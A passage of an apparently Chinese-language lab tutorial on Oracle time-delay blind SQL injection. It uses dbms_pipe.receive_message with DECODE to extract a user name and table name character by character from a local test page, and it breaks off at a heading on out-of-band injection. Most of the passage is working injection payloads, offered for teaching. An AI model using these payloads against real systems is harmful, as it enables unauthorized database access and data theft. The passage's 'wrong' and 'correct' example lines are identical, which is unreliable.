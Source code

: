 **第一步，测试延迟代码。**  
SQL 语句如下，可以看到网络加载时间是 5S，注意该函数 5s 后的返回值是 1。

```
SELECT dbms_pipe.receive_message('RDS', 5) from dual;
```

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROqkDUBzQzZUJTRq29JLjGl9nuJAfByJYh1ia3lWVmibNZ3jOicrZNgwhuwGnXcyL0yHhVEp7pZyETEg/640?wx_fmt=png)

SQL 注入链接如下：

```
1 and 1= dbms_pipe.receive_message('RDS', 5)--
```

**第二步，调用 DECODE 函数进行延时判断。**

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROqkDUBzQzZUJTRq29JLjGllnUHtUvztGlGlOib5dEZ7MWPaCMkfBSibYaxWibQY0ibDh4HGyDicprs6tw/640?wx_fmt=png)

SQL 语句如下，该语句表示：

*   select DECODE(condition,value,
    
    dbms_pipe.receive_message(‘RDS’, 5),0) from dual 当 condition=value 就返回 dbms_pipe.receive_message(‘RDS’, 5)，那么页面就等待 5 秒时间，从而达到延时注入的目的。
    

```
错误select decode(substr(user,1,1),'T',dbms_pipe.receive_message('RDS',5),0) from dual;正确（EASTMOUNT）select decode(substr(user,1,1),'T',dbms_pipe.receive_message('RDS',5),0) from dual;
```

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROqkDUBzQzZUJTRq29JLjGlVNDt8Lw8TLApn261xibrYqdaRCGRxCIg8CgYTVGFQEuQFISd8RGMJNw/640?wx_fmt=png)

对应 SQL 注入代码如下：

```
1 and 1=(select decode(substr(user,1,1),'E',dbms_pipe.receive_message('RDS',5),0) from dual)--
```

可知用户名第一个字符是 E，使用 BP 爆破，当前用户名为 EASTMOUNT。

**第三步，通过延迟注入获取表名 DEMO。**  
如果错误显示会反馈异常结果。

```
http://127.0.0.1/sql-test02.php?id=1 and 1=(select decode(substr(table_name,1,1),'D',dbms_pipe.receive_message('RDS',5),0) from user_tables where rownum=1)--
```

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROqkDUBzQzZUJTRq29JLjGlszADcPC83bDEIm2whPl2Qia6nXZcWMT1DtpG567lichMzHnyVQVtCTOg/640?wx_fmt=png)

如果正常注入则延迟显示正常结果，比如 DEMO 的首字母 D。

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROqkDUBzQzZUJTRq29JLjGlvyibpaX7gRKd3JM6WohBtxAxhy9Wlg4T6yGe0QbsJsLEMsxBV7iagDzw/640?wx_fmt=png)

后续步骤参考前面的步骤即可。

七. 带外注入实践
=========
